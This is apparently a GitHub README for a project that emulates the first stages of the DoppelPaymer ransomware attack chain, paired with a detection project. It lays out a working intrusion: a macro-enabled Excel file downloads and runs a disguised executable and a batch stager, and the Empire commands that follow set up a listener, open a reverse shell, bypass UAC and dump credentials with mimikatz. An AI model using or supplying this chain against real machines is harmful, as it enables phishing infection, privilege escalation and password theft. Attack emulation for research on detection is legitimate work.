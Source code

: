 # Attack Emulation of the Fore Part of Doppelpaymer Attack Chain
## Second Part of this Project
* https://github.com/chieh0613/Log-based-Anomaly-Detection-and-Tracing-back-to-Phishing-Emails

## Introduction
    An APT attack consists of various tactics, including initial access, credential access, and command and control.
    DoppelPaymer is a ransomware that have launched their attacks since 2019, threatening victims after stealing their files.
    We try to reproduce the attack scenario based on the fore part of Doppelpaymer attack chain.

## Victim's OS and requiremnts
* Edition: Windows 10 Home
* Version: 2004
* Microsoft Office
* 7-zip/WinRAR
* Windows Defender disabled

## Attacker's OS and requirements
* Kali Linux
* Empire


## Unzip
    In the folder unzip, we try to generate an executable file "unzip.exe" to extract file from "launcher.zip" with the password "123".
* Type "python run.py" to generate the file "unzip.exe".
* Requirements:
  - python==3.8.8
  - pyinstaller==4.3 

## Unzip.txt
    Because we cannot download the executable file directly, we change the file extension from .exe to .txt.
    After the modication, we can use macro to download the file directly by a given link.

## launcher.zip
    Contains the file "launcher.bat" with the password "123". 
    After executing the file "launcher.bat", the victim will connect to the empire server.

## project.xlsm
    It is a macro enabled excel document.
    The followings are what it will do:
    - Download the file "launcher.zip" to %temp% folder
    - Download the file "unzip.exe" to %temp% folder
    - Execute the file "unzip.exe" to get the file "launcher.bat"
    - Execute the file "launcher.bat" to connect to the empire server

## project.zip
    Contains project.xlsm with password '123'. 

## Empire Commands
* Generate the file "launcher.bat" to let the victim connect to the empire server:
    1. Use "uselistener http" to generate listener
      * set Name http
      * set Host 192.168.2.30 (attacker's ip)
      * set Port 8080
      * execute
    2. Use "usestager windows/launcher_bat" to generate the file "launcher.bat"
      * set Listener http
      * execute

* After the victim connects to the empire server, run the following commands:
    1. type "agents" to find the value of victim's Name (<victim_Name>)
    2. type "interact <victim_Name>"
    3. Reverse shell
      * shell tasklist
      * shell netstat
      * shell ipconfig
    4. Use "usemodule privesec/bypassuac" to get administrator privilege
      * set Listener http
      * execute
    5. Use "usemodule credentials/mimikatz/logonpasswords*" to get the victim's NTLM hash
      * execute

# Reference
* https://github.com/mishmashclone/BC-SECURITY-Empire
* https://null-byte.wonderhowto.com/how-to/use-powershell-empire-getting-started-with-post-exploitation-windows-hosts-0178664/
* https://ethicalhackingguru.com/how-to-use-powershell-empire-3-the-powershell-empire-3-tutorial/
* https://d13ot9o61jdzpp.cloudfront.net/files/Excel%204.0%20Macro%20Functions%20Reference.pdf
* https://stackoverflow.com/questions/6934169/how-to-show-current-user-name-in-a-cell
* https://vblocalhost.com/uploads/VB2020-61.pdf
* https://github.com/DarkSecDevelopers/shellpy.git

